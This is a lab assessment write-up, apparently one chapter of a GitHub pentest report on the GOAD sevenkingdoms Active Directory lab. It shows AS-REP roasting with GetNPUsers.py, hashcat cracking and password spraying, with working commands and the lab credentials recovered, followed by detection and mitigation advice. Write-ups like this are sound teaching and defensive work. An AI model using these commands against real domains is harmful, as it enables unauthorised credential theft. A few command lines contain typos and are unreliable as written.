




# Initial Credential Access

## Objective

This phase tested whether the user list from discovery could be converted into valid domain access without triggering unnecessary account lockouts.

## Starting position

- A list of valid or probable `north.sevenkingdoms.local` usernames
- The lockout policy retrieved from `WINTERFELL`
- One lab credential exposed in an account description
- No administrative access

## AS-REP roasting

Accounts configured with **Kerberos pre-authentication disabled** can return AS-REP material without first proving knowledge of the account password. That encrypted material can be tested offline against candidate passwords.

`Impacket's GetNPUsers.py` was used with the prepared username list:

```bash
GetNPUsers.py north.sevenkingdoms.local -no-pass -usersfile north-users.txt -dc-ip 10.4.10.11 -outputfile asrep-hashes.txt
```



The request identified `brandon.stark` as AS-REP roastable.

The returned material was then tested offline with Hashcat:

```bash
hashcat -m 18200 asrep-hashes.txt /usr/share/wordlists/rockyou.txt
```

The password was recovered successfully:

```text
brandon.stark:iseedeadpeople
```



The important distinction is that the KDC did not send a stored password hash. It returned encrypted AS-REP data that could be subjected to offline password guessing because pre-authentication was disabled for the account.

## Password-policy-aware spraying

The previously retrieved lockout policy allowed five failed attempts before lockout.

That information was used to keep the spray controlled and avoid repeated guesses agaisnt individual users.

The assessment tested a small set of predictable password candidates, including the possibility that an account used its own username or character name as the password.

`SprayHound` identified another valid credential:

```text
hodor:hodor
```

This result demonstarted a separate weakness from AS-REP roasting: the account was protected by Kerberos pre-authentication, but the password itself was highly predictable.

## Credential validation

At this stage, three credentials had been obtained through different causes:

```text
samwell.tarly:Heartsbane
hodor:hodor
brandon.stark:iseedeadpeople
```

The credential were validated against the domain before any broader enumeration was performed.

## Authenticated directory enumeration

With a valid child-domain account, Impacket's `GetADUsers.py` was used to retrieve user metadata:

```bash
GetADUsers.py -all 'north.sevenkingdoms.local/brandon.stark:iseedeadpeople' -dc-ip 10.4.10.11
```



Authenticated LDAP queries were also tested against the parent domain:

```bash
ldapsearch -H ldap://10.4.10.1 -D 'brandon.stark@north.sevenkingdoms.local' -w 'iseedeapeople' -b 'DC=sevenkingdoms,DC=local' '(&(objectCategory=person)(objectClass=user))' | grep 'distinguieshedName'
```


The child-domain credential was accepted for directory queries in the parent domain. This confirmed useful cross-domain directory visibility but it did **not** by itself demonstrate administrative access or full compromise of the parent domain.

## Result

The phase produced two additional valid accounts:

- One through an account configured without Kerberos pre-authentication
- One through a predictable password identified with a controlled spray

Authenticated directory access then expanded the known user population and provided the basis for targeted service-account testing.

## Security impact

Both weaknesses allowed offline or low-noise credential acquisistion:

- AS-REP roasting avoids repeated online password attempts after the encrypted response has been collected.
- Predictable passwords can defeat otherwise correct authentication configuration

Together, they changed hte assessment from anonymous reconnaissance to authenticated domain access.

## Detection opportunities

Defenders should monitor for:

- AS-REQ activity for accounts that do not require pre-authentication
- Event patterns showing one sourcetesting the same password across many accounts
- Authentication attempts immediately below the lockout threshold
- Unusual LDAP enumeration shortly after a first successful logon
- Accounts with the `DONT_REQ_PREAUTH` flag

## Mitigation

- Require Kerberos pre-atuhentication for all normal user accounts
- Use long, unique passwords that are not derived from usernames, character names, company names, or predictable patterns
- Apply MFA where the protocol and service support it
- Monitor password-spray patterns across accounts rather than only repeated failures against one account
- Review account lockout policy alongside smart-lockout and identity-protection controls

## MITRE ATT&CK mapping

- `T1558.004` - AS-REP Roasting
- `T1110.003` - Password Spraying
- `T1087.002` - Domain Account Discovery

## Key takeaway

The initial foothold did not depend on a single failure. One account had an unsafe Kerberos configuration, another used a predictable password, and a third exposed its password in Active Directory metadata. The combination gave the assessment several independent paths into the domain.

## Navigation

[Previous: Discovery and enumeration](01-discovery-and-enumeration.md) | [Assessment index](../README.md) | [Next: Credential access and lateral movement](03-credential-access-and-lateral-movement.md)
